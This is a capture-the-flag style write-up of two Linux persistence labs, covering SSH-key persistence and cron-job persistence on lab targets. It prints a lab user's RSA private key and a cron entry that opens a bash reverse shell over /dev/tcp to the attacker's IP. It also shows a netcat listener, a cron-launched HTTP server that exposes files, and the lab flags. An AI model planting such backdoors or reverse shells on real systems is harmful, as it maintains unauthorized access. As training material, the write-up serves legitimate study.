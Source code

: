 # 🔬Linux Persistence

## Lab 1 - SSH <a href="#lab-1-ssh" id="lab-1-ssh"></a>

> 🔬 [Maintaining access I](https://www.attackdefense.com/challengedetails?cid=954)
>
> * Target IP: `192.3.140.3`
> * **Persistence** via **SSH Keys**, even after user credentials are modified
> * Initial credentials: `student` :`password`

```bash
ifconfig
    192.61.149.3
```

```bash
ssh student@192.61.149.3
```

<figure><img src="../../../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

### SSH Keys <a href="#ssh-keys" id="ssh-keys"></a>

```bash
ls -al
    total 24
    drwxr-xr-x 1 student student 4096 Aug  9 15:36 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    drwx------ 2 student student 4096 Aug  9 15:36 .cache
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 .ssh
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait
    
cat wait
    Delete this file to trigger connection reset.
    
    Delete it only after planting the backdoor.
    
cd .ssh

ls
    authorized_keys  id_rsa
```

* Show the **private key** inside `id_rsa`

```bash
cat id_rsa 

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA3JH1zC1WJuJ2KCPf1UdJe1dX+Uh4aE9RKsnuQk124eOB601/
    8+Q6uJej38goVYQ7Dc4INK9Pq9cOs+uDQfRdjS1/9S7a0bDVORR6Q/E3dya0RDsz
    LcaqX6LkPgnBZ2gS37E4mX6kiwEvYeqaAGyFqyfn+QPLos/Znc3EA4A71LPFg01b
    AmpI6Gbaa7UUG+MCZoM0qDNo5Mzr5bmtCnVOKQ6n0Qx7znu5A2p00TfzmAo7erZ8
    6xJUfXQoVFzqmINqhZKFZtjgV5nk/qHgn1BPyd6NoWeXADdIJKi7iq4jomT+Ny+/
    HlxrAs1IJhxtrSExSMTkqmH/3KeX9ibBWXzY1QIDAQABAoIBAEO0liOvgvN6rlRR
    9sJMGJVA0WNWyIcUWdDtnTJC/wwFvvqQlocx9oh1G7t0gFUHuuzY4pHxgl44LG40
    C91x+kl8vvtu/4JAaqMT0xgJ8kGj4s/S8DnL8r5ajP8yFWj9fFWn27zaL/3vRjEj
    R1R7+2f3XvCEJrz6Wk1jPRjqAvOeDRGH3ojsQwWO7k/FcvtqVBCPTGxyUBzXYv06
    fM3OY5NL8D7t/bLoHa8dVhqjPnfUR7/IpiAdxEam1X0ObPB5YyBwSlpj6h904bF/
    +U697IE23xjVmKMKcvTLe6QAxuRGSMf3/k3rCpDd3UxYF+P2e0CK3MefWjKpAe8r
    2xRXyB0CgYEA+7zgmuhJqjik8tbt6b6+ZAJZ68TqLE1f3YEW/LivMeMj5tQZo/w+
    0ZJnr6hR3eicMMxWKufGXSEtbs1TzMGvA5SXI9MTu62a5A2h7NDbLuKRwdjh9Qv6
    TocFSMTSFcS4jvmbeYlVaSZWrJLLKY6lsjgdjDB4DH7Uc0Anxdr//GsCgYEA4E39
    rlB7GWoCX7oXpSEGCHkQkmgX5IDU7+UUySFqD8fWoLsAc47R/TmDsKI+x83PF5jG
    oo5P5LmUIeqnAKknTSyfD1YFtMa3tpTE68R9j/uueTK7v5izwWQjicmILm4RdkZJ
    TVVH2b0aIQaUnpWWwHLa+BYx2jH4S2GxH89vz78CgYEA211SyApFLw0fR/Hc7kRm
    OlYGL7qvaR2fvTDhbCYvnKRXQ61uDoUf5JXUvrBJbrtlZ+yX5dmE9OCVa6mHLbVV
    oiQYtIIZ/wCgKbxrbybs6OVMqIQrGtNuMoHcK/Y/L/L19Lk0L2tqPy/GdamRWkxQ
    vYXC0cfmxNS8oxWz0uktCrMCgYB6ufF9OMfBxgD6g4WAciss46CvmojIG71mbL8M
    tV2kuMC0PN0oXRKELL3jHUKga/lNfefg9WC9UtS8IfmyINtCHJIDABwrJzdJjOiZ
    326cIyb5ZUrYsCJaRAI117DNRqgDQL3GtEyV1CPBwin7Avny3mT0rKAmNIUYKaGS
    OBuDXQKBgQDIRYOZEaV8rXx3wN24NYuByNUpRM3AIyPIwAuaPklWD6D2KdDveheI
    lZtRb6Yzzmeon0DuLPdl7e/R7e5Z8Mx3o40aiJLULlw95JqON3J3W471PZAG1L/g
    59PKgUMBNVX9UsUqvHyWlcY/FAT9UhWblgDoN3uXY9Db6q5x7hWzKw==
    -----END RSA PRIVATE KEY-----
```

* Check the [`authorized_keys`](https://www.ssh.com/academy/ssh/authorized-keys-file) file too

```bash
cat authorized_keys 
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDckfXMLVYm4nYoI9/VR0l7V1f5SHhoT1Eqye5CTXbh44HrTX/z5Dq4l6PfyChVhDsNzgg0r0+r1w6z64NB9F2NLX/1LtrRsNU5FHpD8Td3JrREOzMtxqpfouQ+CcFnaBLfsTiZfqSLAS9h6poAbIWrJ+f5A8uiz9mdzcQDgDvUs8WDTVsCakjoZtprtRQb4wJmgzSoM2jkzOvlua0KdU4pDqfRDHvOe7kDanTRN/OYCjt6tnzrElR9dChUXOqYg2qFkoVm2OBXmeT+oeCfUE/J3o2hZ5cAN0gkqLuKriOiZP43L78eXGsCzUgmHG2tITFIxOSqYf/cp5f2JsFZfNjV root@localhost
```

### Persistence <a href="#persistence" id="persistence"></a>

* Exit the `SSH` session and download the `id_rsa` file

```bash
scp student@192.61.149.3:~/.ssh/id_rsa .
chmod 400 id_rsa 
```

<figure><img src="../../../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

* Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.61.149.3
rm wait
    Connection to 192.61.149.3 closed by remote host.
    Connection to 192.61.149.3 closed.
# Old student's password do not work anymore
```

* Connect to the target using the downloaded private key

```bash
ssh -i id_rsa student@192.61.149.3
```

<figure><img src="../../../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `689227a4f1b97afe1ff5ebaf85babc19`
{% endhint %}

> 📌 Instead of using a user's private key, typically the attacker generates an SSH key pair on his system, keeps the private key on his system, transfers the public key onto the target system user's home `.ssh` directory and adds it in the `authorized_keys` file.
>
> * [SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

***

## Lab 2 - Cron Jobs <a href="#lab-2-cron-jobs" id="lab-2-cron-jobs"></a>

> 🔬 [T1168: Local Job Scheduling](https://www.attackdefense.com/challengedetails?cid=1553)
>
> * Target IP: `192.28.59.2`
> * **Persistence** via **Cron Jobs**
> * Initial credentials: `student` :`password`
> * 🔬 Check the [Cron Jobs Linux attacks Lab here](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/linux-attacks/cron)

* [Scheduled Task/Job - MITRE ATT\&CK](https://attack.mitre.org/techniques/T1053/)
* [crontab.guru](https://crontab.guru/)

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-cdd2252b21e631f7d116c274f50f7cef57193f43%252Fimage-20230429160832734.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=bc20cf3f&#x26;sv=1" alt=""><figcaption></figcaption></figure>

```bash
ip -br -c a
	192.28.59.3/24
```

```bash
ssh student@192.28.59.3 
```

### Cron Jobs <a href="#cron-jobs" id="cron-jobs"></a>

```bash
ls -al
    drwxr-xr-x 1 student student 4096 Aug 10 05:11 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    drwx------ 2 student student 4096 Aug 10 05:11 .cache
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait

cat wait
    Delete this file to trigger connection reset.
    
    Delete it only after planting the backdoor.
```

```bash
cat /etc/cron*
```

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Persistence <a href="#persistence-1" id="persistence-1"></a>

* Create a **new Cron job** as the `student` user
  * The command inside the cron job will be executed with the `student`'s permissions'

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.28.59.2/1234 0>&1'" > cron
```

```bash
crontab
crontab -i cron
crontab -l
```

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

* Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.28.59.3
rm wait
# Old student's password do not work anymore
```

* Setup a `nc` listener and wait for the `bash reverse shell` from the cron job **that runs every minute**

```bash
nc -nvlp 1234
```

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Second method

```bash
echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron
crontab -i cron
crontab -l
```

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>will show open</p></figcaption></figure>

```bash
curl 192.28.59.3:8000
curl 192.28.59.3:8000/flag.txt
```

{% hint style="success" %}
**Flag:** `79969e32981f722464fde4ce7f208883`
{% endhint %}
